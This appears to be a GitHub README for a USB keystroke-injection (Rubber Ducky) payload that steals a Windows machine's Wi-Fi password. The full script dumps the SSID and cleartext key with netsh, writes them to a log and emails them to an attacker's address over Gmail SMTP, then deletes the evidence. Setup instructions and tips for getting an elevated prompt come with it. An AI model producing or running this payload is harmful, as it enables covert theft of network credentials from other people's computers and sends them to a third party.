 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send the content of Log.txt to

## **Code**;
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 3
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000

REM --> Minimize all windows
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER

REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER

REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER

REM --> Delete A.txt
STRING del A.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of Log.txt instead the file itself

### Suggestions;
**If you have any suggestions, write them down here.**

The cmd prompt must be elevated to get any passwords.  If you change from using the WINDOWS r to using the search menu for "cmd" and pressing ctrl+shift+enter you can get a UAC prompt.  From there you'd need to alt+Y to get the elevated prompt.

You can also use the run box but with the following command in Win7 and later:
powershell Start-Process cmd -Verb runAs
